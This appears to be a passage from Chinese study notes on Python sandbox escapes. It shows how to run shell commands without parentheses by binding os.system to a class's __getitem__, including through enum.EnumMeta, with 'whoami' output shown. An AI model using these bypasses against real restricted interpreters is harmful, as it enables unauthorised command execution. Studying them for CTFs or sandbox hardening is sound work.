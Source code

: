 先调用`lambda`函数`a`，函数`a`再返回payload给`system`调用

**利用魔术方法**

```python
from os import system


class x:
    def __getitem__(self, x):
        system(x)


# 上面这个写法可以改写为：
class x: pass
x.__getitem__ = system


x()["whoami"]
"""
结果：desktop-13qds1a\lenovo
"""
```

但是因为不能用`()`实例化类，所以我们需要在标准库里寻找一个模块，这个模块必须包含某个类以及这个类的实例。符合这种条件的库一般是一种类型。比如 `enum`，`enum.Enum` 是 `enum.EnumMeta` 的一个子类：

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/20220627110341.png)

```python
import enum
from os import system

enum.EnumMeta.__getitem__ = system
enum.Enum['whoami']
```
